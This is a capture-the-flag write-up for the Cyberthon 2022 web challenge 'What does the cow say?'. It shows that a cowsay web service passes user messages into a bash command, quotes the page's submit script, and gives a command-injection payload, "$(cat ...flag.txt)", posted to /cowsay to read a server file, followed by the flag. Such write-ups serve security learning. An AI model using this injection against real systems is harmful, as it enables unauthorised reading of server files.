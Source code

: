 # What does the cow say?
Written by Halogen
## Problem Statement
> We've got intel that APOCALYPSE has an important file within this webserver named "flag.txt".  
>   
> Please help us retrieve its contents.  
>   
> The URL for this challenge:  
> http://chals.cyberthon22f.ctf.sg:40201
## Solution
From randomly inserting messages, we can see that a cow responses using some bash command
![[cowsay.png]]
From this we see that the message is just plugged into the code, making it vulnerable to command line injection.
But upon inspection (`Inspect Element`), we note the function used to submit the message.
```js
function logSubmit(form, event) {
    event.preventDefault();
    const url = "/cowsay";

    let msg = form["msg"].value;
    msg = msg.replace(/\n/g, "\\n").replace(/\'/g, "\\x27");
    msg = `'${msg}'`;
    fetch(url, {
        method : "POST",
        headers:{
            msg
        },
    }).then(
        response => response.json()
    ).then(
        response => {
            let output = response["output"]
            let cmd = response["cmd"]
            document.getElementById("output").innerText = output;
            document.getElementById("cmd").innerText = cmd;
        }
    );
}
```
We see that we can just communicate directly with the program using "/cowsay".
So we can do a `POST` request with the form value `msg` = `"$(cat ../usr/local/flag/here/flag.txt)"`
With that, we get a cow that states the flag 🥳

Flag: `Cyberthon{1_L0V3_W4GYU}`